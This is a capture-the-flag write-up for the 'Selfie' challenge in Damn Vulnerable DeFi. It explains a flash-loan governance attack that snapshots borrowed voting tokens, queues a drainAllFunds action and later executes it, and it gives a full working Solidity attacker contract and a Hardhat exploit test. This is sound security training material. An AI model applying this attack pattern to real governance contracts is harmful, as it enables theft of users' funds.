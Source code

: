 # Selfie

## analyse

> A new cool lending pool has launched! It’s now offering flash loans of DVT tokens. Wow, and it even includes a really fancy governance mechanism to control it. What could go wrong, right? You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

### the whole business analyse

- SelfiePool：This is a flashloan pool. Not only  can we call flashloan() in this contract, but we can also call drainAllFunds() which can be called after passing the modifier `onlyGovernance`. Analyse the topic, we can learn that we should call drainAllFunds() to pass this level
- SimpleGovernance：This is the main contract. It is a governing contract, anyone can call queueAction to put a motion in the execution queue after we have got enough Snaptshot. And then the motions will be executed one by one.
- DamnValuableTokenSnapshot：ERC20 token, having the snapshot ability.

### flashloan analyse

From the whole business analyse, i have an idea to complete this level: get a lot of money by flashloan => take a snapshot =>  put our malicious motion to the queue(contain the drainAllFunds() payloan) => Transfer tokens back to pool => wait for 2 days  => exectute our motion and steal the money => transfer the money to the attacker wallet

1.we can flashloan a lot of money to take a snapshot so that we can get enough snapShot token, so we can pass this code:

```solidity
require(_hasEnoughVotes(msg.sender), "Not enough votes to propose an action");

function _hasEnoughVotes(address account) private view returns (bool) {
    uint256 balance = governanceToken.getBalanceAtLastSnapshot(account);
    uint256 halfTotalSupply = governanceToken.getTotalSupplyAtLastSnapshot() / 2;
    return balance > halfTotalSupply;
}
```

2.put our malicious motion to the queue(contain the drainAllFunds() payloan): the queueAction needs a payload as parameter, it completely depends on us. So we can call the drainAllFunds(). Then the governance would call this function to drain all the funds to us while it can pass the modifier `onlyGovernance`.

```solidity
//create a malicious payload
bytes memory data = abi.encodeWithSignature("drainAllFunds(address)", address(this));
// Use tokens to queue a new action
governance.queueAction(address(selfiePool), data, 0);
```

3.Transfer tokens back to pool

```solidity
DVT.transfer(address(selfiePool), _amount);
```

4.wait for two days

```js
// Travel through time (2 days) in order to execute the queued action.
await ethers.provider.send('evm_increaseTime', [2 * 24 * 60 * 60])
```

5.exectute our motion and steal the money . transfer the money to the attacker wallet

```solidity
function attack_2daysLater(uint actionId) external {
    require(msg.sender == owner);
    governance.executeAction(actionId);
    DVT.transfer(msg.sender, DVT.balanceOf(address(this)));
}

function executeAction(uint256 actionId) external payable {
    require(_canBeExecuted(actionId), "Cannot execute this action");

    GovernanceAction storage actionToExecute = actions[actionId];
    actionToExecute.executedAt = block.timestamp;

    actionToExecute.receiver.functionCallWithValue(
    actionToExecute.data,
    actionToExecute.weiAmount
    );

    emit ActionExecuted(actionId, msg.sender);
}
```

### vulnerability

Once again, like in some of the previous levels, the vulnerability lies inside the contract implementation, that allows any receiver contract to perform a malicious action.

**Don’t trust other contracts blindly.** Be careful of what you allow your contracts to do on external calls. The implementation of this protocol is vulnerable because it delegates an execution to an unknown external contract, and opens a backdoor for possible attacks.

Besides, since the vast majority of the Governance tokens are stored on a singular address (the *SelfiePool* contract*),* and is not well distributed among several accounts/addresses, the protocol has a single point of failure, making the attack easier.

Here’s [a good article](https://blog.openzeppelin.com/smart-contract-security-guidelines-4-strategies-for-safer-governance-systems/) from the highly reputable blockchain security company OpenZeppelin that should help you learn more about strategies and best practices for safer governance systems.

## solution

- SelfieAttacker

```solidity
pragma solidity ^0.8.0;

import "../selfie/SimpleGovernance.sol";
import "../selfie/SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";

contract SelfieAttacker {
    SelfiePool immutable selfiePool;
    SimpleGovernance immutable governance;
    DamnValuableTokenSnapshot immutable DVT;
    address immutable owner;

    constructor(
        address _selfiePool,
        address _governance,
        address _dvt
    ) {
        selfiePool = SelfiePool(_selfiePool);
        governance = SimpleGovernance(_governance);
        DVT = DamnValuableTokenSnapshot(_dvt);
        owner = msg.sender;
    }

    function attack_flashloan(uint256 borrowAmount) external {
        require(msg.sender == owner);
        selfiePool.flashLoan(borrowAmount);
    }

    function receiveTokens(address _token, uint256 _amount) external {
        // Take snapshot when we receive tokens.
        // This is for passing the _hasEnoughVotes requirement of this contract when
        // getting balance aat last snapshopt
        DVT.snapshot();

        bytes memory data = abi.encodeWithSignature("drainAllFunds(address)", address(this));

        // Use tokens to queue a new action
        governance.queueAction(address(selfiePool), data, 0);

        // Transfer tokens back to pool
        DVT.transfer(address(selfiePool), _amount);
    }

    function attack_2daysLater(uint actionId) external {
        require(msg.sender == owner);
        governance.executeAction(actionId);
        DVT.transfer(msg.sender, DVT.balanceOf(address(this)));
    }
}
```

- test

```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */

    // Deploy evil contract
    const SelfieAttacker = await ethers.getContractFactory('SelfieAttacker', attacker)
    this.selfieAttackerContract = await SelfieAttacker.deploy(
        this.pool.address,
        this.governance.address,
        this.token.address
    )

    // Log balances
    console.log('Before: POOL DVT BALANCE: ', String(await this.token.balanceOf(this.pool.address)))
    console.log('Before: ATTACKER DVT BALANCE: ', String(await this.token.balanceOf(attacker.address)))

    // Make a flash loan. This will take snapshot, queue evil action and transfer DVT back to pool
    await this.selfieAttackerContract.connect(attacker).attack_flashloan(TOKENS_IN_POOL)

    // Travel through time (2 days) in order to execute the queued action.
    await ethers.provider.send('evm_increaseTime', [2 * 24 * 60 * 60])

    // Execute the queued action. This will call the drainAllFunds() function of the pool contract and send them to our evil contract.
    // Retrieve all DVT from attacker contract to attacker address.
    await this.selfieAttackerContract.connect(attacker).attack_2daysLater(1)

    // Log balances
    console.log('After: POOL DVT BALANCE: ', String(await this.token.balanceOf(this.pool.address)))
    console.log('After: ATTACKER DVT BALANCE: ', String(await this.token.balanceOf(attacker.address)))

});
```

































